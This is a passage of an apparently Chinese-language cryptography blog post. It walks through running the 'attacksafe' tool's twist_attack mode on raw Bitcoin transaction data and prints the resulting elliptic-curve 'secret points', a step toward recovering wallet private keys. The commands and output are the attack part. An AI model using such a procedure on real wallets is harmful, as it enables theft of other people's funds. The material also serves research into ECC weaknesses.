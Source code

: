 

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool twist_attack</code>&nbsp;使用軟件&nbsp;啟動&nbsp;<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool twist_attack -open RawTX.txt -save SecretPoints.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/02/image-3-1024x304.png" alt="Twist Attack 示例 #2 繼續執行一系列 ECC 操作以獲取比特幣錢包私鑰的值" class="wp-image-2330"/></figure>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/02/image-4-1024x262.png" alt="Twist Attack 示例 #2 繼續執行一系列 ECC 操作以獲取比特幣錢包私鑰的值" class="wp-image-2332"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>我們發起了這次攻擊&nbsp;<code>-tool twist_attack</code>&nbsp;並將結果保存到一個文件中&nbsp;<code>SecretPoints.txt</code></p>



<p>現在看到成功的結果，打開文件&nbsp;<code>SecretPoints.txt</code></p>



<pre class="wp-block-code"><code>cat SecretPoints.txt</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>結果：</h2>



<pre class="wp-block-code"><code>Elliptic Curve Secret Points:

Q11 = E1(&#91;97072073026593516785986136148833105674452542501015145216961054272876839453879, 107567253371779495307521678088935176637661904239924771700494716430774957820966])
Q21 = E2(&#91;3350296768277877304391506547616361976369787138559008027651808311357100316617, 72988900267653266243491077449097157591503403928437340215197819240911749073070])
Q22 = E2(&#91;112520741232779465095566100761481226712887911875949213866586208031790667764851, 67821409607391406974451792678186486803604797717916857589728259410989018828088])
Q31 = E3(&#91;19221018445349571002768878066568778104356611670224206148889744255553888839368, 51911948202474460182474729837629287426170495064721963100930541018009108314113])
Q32 = E3(&#91;41890177480111283990531243647299980511217563319657594412233172058507418746086, 50666391602993122126388747247624601309616370399604218474818855509093287774278])
Q33 = E3(&#91;42268931450354181048145324837791859216268206183479474730830244807012122440868, 106203099208900270966718494579849900683595613889332211248945862977592813439569])
Q41 = E4(&#91;54499795016623216633513895020095562919782606390420118477101689814601700532150, 105485166437855743326869509276555834707863666622073705127774354124823038313021])
Q61 = E6(&#91;62124953527279820718051689027867102514830975577976669973362563656149003510557, 100989088237897158673340534473118617341737987866593944452056172771683426720481])
Q62 = E6(&#91;86907281605062616221251901813989896824116536666883529138776205878798949076805, 19984923138198085750026187300638434023309806045826685297245727280111269894421])
Q63 = E6(&#91;66063410534588649374156935204077330523666149907425414249132071271750455781006, 25315648259518110320341360730017389015499807179224601293064633820188666088920])
Q64 = E6(&#91;109180854384525934106792159822888807664445139819154775748567618515646342974321, 102666617356998521143219293179463920284010473849613907153669896702897252016986])

